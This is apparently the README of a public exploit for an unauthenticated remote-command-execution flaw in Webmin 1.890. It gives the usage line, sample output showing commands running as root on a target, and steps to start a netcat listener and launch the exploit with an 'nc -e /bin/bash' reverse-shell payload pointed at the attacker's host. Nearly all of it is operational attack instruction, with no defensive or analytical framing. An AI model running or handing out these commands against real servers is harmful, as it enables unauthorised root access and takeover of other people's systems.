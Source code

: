 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;
<br>
<h3>before running script start listener for connection in your machine</h3>
<code>nc -nvlp [LPORT]</code> 
<br><h3>run script</h3><br>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
